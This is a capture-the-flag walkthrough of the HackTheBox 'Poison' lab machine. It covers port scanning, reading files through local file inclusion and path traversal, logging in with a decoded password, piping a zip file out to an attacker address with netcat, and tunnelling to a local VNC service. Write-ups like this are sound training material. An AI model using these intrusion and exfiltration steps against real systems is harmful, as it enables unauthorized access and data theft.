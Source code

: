 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.84 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Poison/assets/1.png">

# Enumeration
We can view several scripts. One in particular looks promising as it shows a reference to pwdbackup.txt.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Poison/assets/3.png">

The content gives us as multiple encoded string.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Poison/assets/4.png">

After decoding it 13 times we get a password:
```
Charix!2#4%6&8(0
```

We try if we can use local file inclusion on the /etc/passwd file. We learn that root and charix will have a bash available.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Poison/assets/2.png">

# Initial Foothold
Now we have a username and password we will try to connect with SSH:
```
ssh charix@10.10.10.84
```

We spot secret.zip and try to download it abusing the lfi vulnerability:
```
wget "http://10.10.10.84/browse.php?file=../../../../../../../home/charix/secret.zip"
```
That didn't work. Probably because the web user isn't charix and therefore we can't access his files. Netcat is available on the host. Let's use it to transfer the file.
```
nc -nlvp 4444 > secret.zip
```
```
cat secret.zip | nc 10.10.14.9 4444
```
We unzip the password protected zipfile with the previously found password. It contains a file named secret. Running it through ```strings``` and ```file``` didn't gave me much info on the file.

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Poison/assets/5.png">

# Privilege Escalation
After some digging around we see that there are two services running on port 5801 and 5901. Google tells us that they are used by vnc.
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Poison/assets/6.png">

But we can't access them directly, otherwise they would have popped up during the nmap scan.
We can however tunnel the traffic with port forwarding.

```
ssh -L 5901:localhost:5901 -N -f -l charix 10.10.10.84 
```
Now we can setup a vnc connection with the target. This is where the secret file comes in handy as we can pass it as parameter.
```
vncviewer localhost:5901 -passwd secret
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Poison/assets/7.png">




